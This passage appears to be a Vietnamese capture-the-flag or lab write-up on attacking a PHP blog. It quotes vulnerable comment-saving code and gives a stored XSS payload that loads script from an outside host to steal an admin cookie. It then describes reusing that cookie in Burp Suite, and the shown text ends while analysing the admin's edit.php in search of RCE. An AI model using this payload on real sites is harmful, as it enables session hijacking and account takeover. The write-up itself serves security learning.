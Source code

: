  Các dữ liệu được gửi lên sẽ được hàm ```add_comment()``` thực hiện lưu vào database. 
 
 ```php
 function add_comment() {
    $sql  = "INSERT INTO comments (title,author, text, post_id) values ('";
    $sql .= mysql_real_escape_string($_POST["title"])."','";
    $sql .= mysql_real_escape_string($_POST["author"])."','";
    $sql .= mysql_real_escape_string($_POST["text"])."',";
    $sql .= intval($this->id).")";
    $result = mysql_query($sql);
    echo mysql_error(); 
  } 
  ```
  
  Tuy nhiên, mình thấy các dữ liệu này không được validate => Điều này dẫn đến lỗi XSS
  
  ![Imgur](https://i.imgur.com/X3vSVMU.png)
  
  Từ đây mình có thể thực hiện Stored XSS để steal cookie của admin. 
  
  # Exploit XSS
  
  Mình sử dụng https://xsshunter.trufflesecurity.com/ để thực hiện steal cookie admin với payload ```"><script src="https://js.rip/fltgu0p5df"></script>``` 
  
  Sau khi submit thì chờ admin truy cập vào phần comment là có thể lấy được cookie của admin
  
 ![Imgur](https://i.imgur.com/CtrEDEi.png)
  
 Sau đó mình có được cookie. Thực hiện thay cookie đó trên burpsuite mình được 
  
 ![Imgur](https://i.imgur.com/XmOlLLc.png)
  
 # Phân tích admin code
  
 Sau khi mình vào được admin, mình sẽ tiến hành phân tích code của trang admin để tiếp tục tìm kiếm lỗi có thể thực hiện RCE.
  
 Trong file ```edit.php```
  
 ```php
  <?php 
  require("../classes/auth.php");
  require("header.php");
  require("../classes/db.php");
  require("../classes/phpfix.php");
  require("../classes/post.php");

  $post = Post::find($_GET['id']);
  if (isset($_POST['title'])) {
    $post->update($_POST['title'], $_POST['text']);
  } 
?>
  
  <form action="edit.php?id=<?php echo htmlentities($_GET['id']);?>" method="POST" enctype="multipart/form-data">
    Title: 
    <input type="text" name="title" value="<?php echo htmlentities($post->title); ?>" /> <br/>
    Text: 
      <textarea name="text" cols="80" rows="5">
        <?php echo htmlentities($post->text); ?>
       </textarea><br/>

    <input type="submit" name="Update" value="Update">

 ```